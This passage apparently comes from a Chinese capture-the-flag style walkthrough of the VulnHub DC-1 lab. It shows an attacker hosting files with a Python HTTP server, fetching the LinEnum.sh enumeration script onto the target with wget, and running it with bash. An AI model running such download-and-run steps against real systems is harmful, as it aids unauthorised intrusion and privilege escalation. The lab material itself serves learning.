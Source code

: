 ```bash
python -m SimpleHTTPServer 8080
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/12.png)

```bash
wget http://192.168.141.134:8080/LinEnum/LinEnum.sh
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/13.png)

从 kali 上下好后直接运行
```bash
bash LinEnum.sh
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/14.png)
